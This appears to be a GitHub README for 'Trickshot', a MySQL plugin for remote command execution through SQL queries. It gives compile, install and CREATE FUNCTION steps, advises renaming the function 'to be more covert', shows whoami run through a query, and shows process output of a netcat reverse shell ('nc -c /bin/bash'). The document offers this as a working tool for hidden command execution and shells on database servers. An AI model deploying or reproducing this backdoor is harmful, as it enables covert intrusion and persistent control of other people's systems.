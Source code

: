 # Trickshot
MYSQL plugin that allows RCE through a query

# Installation
To install this lovely plugin first you must first compile it to a shared object like below.

```
gcc -I/usr/include/mysql -shared -fPIC -o tg.so trickshot.c
```

Then you must copy the `.so` file to the MYSQL plugin directory like so:

```
cp -f tg.so /usr/lib64/mysql/plugin/
```

Then remove into your MYSQL server and run the following query:

```
CREATE FUNCTION trickshot RETURNS STRING SONAME "tg.so";
```

Note: the `trickshot` portion of the MYSQL command can be swapped out to be more covert. The plugin is now installed.

# Usage
To use this plugin simply run the `trickshot` function inside a MYSQL query. An example is shown below.

```
MariaDB [(none)]> select trickshot("whoami");
+---------------------+
| trickshot("whoami") |
+---------------------+
| mysql               |
+---------------------+
1 row in set (0.04 sec)
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 22077 ?        Ss     0:00 /bin/sh /usr/bin/mysqld_safe --basedir=/usr
 83370 ?        Sl     0:00  \_ /usr/libexec/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib64/mysql/plugin --log-error=/var/log/mariadb/mariadb.log --pid-file=/var
 83526 ?        S      0:00      \_ sh -c nc -c /bin/bash localhost 4444 2>&1
 83527 ?        S      0:00          \_ nc -c /bin/bash localhost 4444
 83528 ?        S      0:00              \_ /bin/bash
```

# Resources
[The official MYSQL UDF References](https://dev.mysql.com/doc/refman/8.0/en/adding-udf.html)
